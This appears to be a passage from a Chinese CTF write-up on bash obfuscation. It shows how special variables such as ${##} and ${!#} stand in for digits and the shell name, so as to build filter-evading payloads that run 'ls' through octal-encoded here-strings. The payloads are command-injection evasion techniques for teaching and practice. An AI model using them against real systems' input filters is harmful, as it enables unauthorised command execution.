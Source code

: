 #### Level 11 - 数字1的特殊变量替换

**替换 0 1：**

我们知道 `${#}`代表传递给当前脚本的参数个数，但我们是直接和sh交互命令，sh软连接的指向的 bash ，bash直接运行时是没有参数的：

```
root@Hello-CTF:/home# echo ${#}
0
root@Hello-CTF:/home# echo $#
0
```

**间接扩展特性**——`${#xxx}`，它用于表示变量 xxx 存储的字符串长度：

```
bash-5.1# str="abcdefg"
bash-5.1# echo ${#str}
7
```

将两者结合到一起可以写成组合 `${##}`  基于bash扩展运算的优先级，第一个#是功能作用第二个#作为变量名称 - **0作为字符串长度为1**.

```
bash-5.1# echo ${##}
1
```

所以对于 ls 命令：

```
→ $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'

→ $0<<<$0\<\<\<\$\'\\$(($((${##}<<${##}))#${##}00${##}${##}0${##}0))\\$(($((${##}<<${##}))#${##}0${##}000${##}${##}))\'
```

#### Level 12 - 数字0的特殊变量替换

**间接扩展特性**——`${!xxx}`，它表示用xxx的值作为另一个变量的名字，然后取出那个变量的值:

```
如果a=0，b=1，c=2，那么 ${!a} 就相当于 $0 ， ${!b} 就相当于 $1 ， ${!c} 就相当于 $2 
bash-5.1# a=0
bash-5.1# echo ${!a}
bash
```

利用这个特性可以进一步替换：

```
→ ${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
```

但是这在PHP中并没有实现，看起来是因为sh的原因，但可以直接在bash中使用。

```
sh-5.1# echo $0
sh
sh-5.1# echo $#
0
sh-5.1# echo ${##}
1
sh-5.1# echo ${!#}

sh-5.1# echo ${!#} | base64
Cg==
sh-5.1# echo $?
0
sh-5.1# echo ${!?}
sh: !: parameter not set
```